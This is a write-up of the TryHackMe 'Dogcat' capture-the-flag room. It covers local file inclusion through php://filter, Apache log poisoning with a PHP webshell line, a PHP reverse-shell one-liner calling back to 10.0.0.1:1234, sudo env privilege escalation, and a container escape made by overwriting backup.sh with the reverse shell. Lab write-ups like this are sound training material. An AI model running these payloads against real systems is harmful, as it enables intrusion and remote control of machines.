




# Dogcat - Writeup

**Date**: 30/04/2022

**Difficulty**: Medium

**CTF**: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

---

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

# What is flag 1?

Let’s start with the enumeration:

<figure><figcaption></figcaption></figure>

The TTL value is 63, and this indicate that the target machine will be probably Linux. Let’s launch an nmap scan:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

There are 2 open ports, 22 (ssh) and 80 (http). Let’s take a look to the website:

<figure><figcaption></figcaption></figure>

When you press the buttons, an image of a dog or a cat appears.

<figure><figcaption></figcaption></figure>

According to the page’ source code, there are 2 directories named `dogs` and `cats` that contain the images:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We have not permissions to look inside the directories... Let’s use Wfuzz to enumerate web directories:

<figure><figcaption></figcaption></figure>

We discovered another directory named `server-status` but we have no permissions to look inside.

Let’s take a look to the action of the buttons of the webpage. To do so I’ll use Burpsuite to intercept the petition:

<figure><figcaption></figcaption></figure>

We can see that there is a GET request, with a query parameter named `view` that takes the values `dog` and `cat` depending on the button clicked. Let’s send this request to the Repeater to work with it.

The first test I want to do is to send the view parameter with no value:

<figure><figcaption></figcaption></figure>

The result is a message saying “Sorry, only dogs or cats are allowed”. So, apparently, it’s checking that “cat” or “dog” string is present in the value of this parameter.

Let’s try with a value of `cat1`:

<figure><figcaption></figcaption></figure>

This time we receive an error saying that the function `include()` has failed trying to open ‘cat1.php’. Two important conclusions can be drawn from this error: First one, that there is a script using the include function which can be vulnerable to Local File Inclusion. And second one, that the script is also appending the .php extension to the view parameter value.

Let’s check if we can use the view parameter to exploit a LFI vulnerability. First I’m going to try to include the `cat.php` but going out of the current folder and going in again to see if it’s possible:

<figure><figcaption></figcaption></figure>

And... It is. Let’s use gobuster to enumerate possible txt, php and html files:

<figure><figcaption></figcaption></figure>

It discovered cat.php, flag.php, index.php and dog.php

Let’s look inside flag.php:

<figure><figcaption></figcaption></figure>

We see nothing. Probably because it is interpreting the content before showing it to us.

Let’s use BurpSuite to send this GET request: `/?view=php://filter/convert.base64-encode/resource=cat`

This will use the php filter wrapper to encode the cat.php file to base64 before it gets interpreted. This way we should receive a string encoded in base64 with the content of cat.php:

<figure><figcaption></figcaption></figure>

```python
PGltZyBzcmM9ImNhdHMvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K   // Base64 Encoded
.jpg" />                      // Decoded
```

Nice! Now we can see the content of cat.php. Let’s do the same with dog.php file:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

To see the content of flag.php we should use a trick. As it seems to be necessary to have “dog” or “cat” inside the value of view parameter, we will go inside and outside cats folder. The GET request would be as follows:

`/?view=php://filter/convert.base64-encode/resource=cats/../flag`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And this is how we get the first flag.

# What is flag 2?

Let’s use the same trick to see index.php content:

<figure><figcaption></figcaption></figure>

```python
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

The source code of index.php has some interesting things. As we thought it’s looking for a ‘dog’ or ‘cat’ string inside the view parameter value. It is also appending the .php extension to the value of view parameter. But this appending only happens if the ‘ext’ parameter value is not indicated. This means that we can use the ‘ext’ parameter value to define the extension we want.

Knowing that, let’s see if we can use LFI to list /etc/passwd file:

<figure><figcaption></figcaption></figure>

```python
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Yeah, we can. I tried to list /etc/shadow also with not success.

So, knowing that we can list files of the target machine, let’s try to go from LFI to RCE using the Apache Logs. At this point I’ll restart the machine, as the log has been fulled during the wfuzz enumeration. 

<aside>
💡 Note to the future: If I want to read the apache log, let’s try to not use automatic enumeration...

</aside>

In the nmap scan we have seen that the web server was using Apache. Searching I have seen that the log file of this apache version are located in `/var/log/apache2/access.log` let’s read it!

<figure><figcaption></figcaption></figure>

We can replace some of the value of the User Agent value with the a php command we want to execute. I’m going to use this php command:

```php
<?php system($_GET['cmd']); ?>
```

This command will read the cmd parameter value from the GET request and will execute it as a bash command.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Let’s try with `whoami` command:

<figure><figcaption></figcaption></figure>

In the response we can see that `www-data` has been included in the User Agent string, so the target system is vulnerable to RCE.

Let’s try to obtain a reverse shell:

<aside>
💡 It’s important to URL-encode the value we want to sent in order to ensure that the server interprets it correctly.

</aside>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

This one didn’t work. maybe the target system doesn’t have the latest netcat version. Let’s try with another one:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Same results. This one was for other versions of netcat. Let’s try with this one that uses php to launch a reverse shell:

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Yeah, with this one we obtained the reverse shell.

<figure><figcaption></figcaption></figure>

Navigating a little bit we found the second flag.

# What is flag 3?

After looking for a while, I didn’t found another flag. So I assume that it will be inside the /root folder. To see inside that folder we have to escalate privileges, so let’s see how.

Let’s see if the www-data user can run any command as sudo:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Apparently it can run env as sudo with no password, and according to GTFO Bins, we can escalate to root using this:

<figure><figcaption></figcaption></figure>

Nice. That’s how we get the third flag.

# What is flag 4?

I have not found any other flag in this system. The description of the CTF said something about containers. Can we check if we are inside a container?

If we run `cat /proc/self/cgroup` we can see:

<figure><figcaption></figcaption></figure>

All of that docker things... Looks like we are inside a container.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Yeah... It looks like we are inside a container. We can also list `/`

<figure><figcaption></figcaption></figure>

To see that there is a `.dockerenv` file that confirms that we are inside a docker container.

Can we exit from the container?

<figure><figcaption></figcaption></figure>

Doing this we exit the Reverse Shell. Apparently, this only applies to the shell that has started the container process. 

So, what can we do now?

Under the `/opt` folder we found the `backup` folder:

<figure><figcaption></figcaption></figure>

The [backup.sh](http://backup.sh) script apparently makes a compressed file of /root/container. It may be an automatic process being executed every few minutes by the real machine? It worth a try to change the content of this script with one to obtain a reverse shell:

 `echo "php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'" > backup.sh`

<figure><figcaption></figcaption></figure>

And after few minutes we obtained a reverse shell. We are logged as root and the last flag is in the current folder.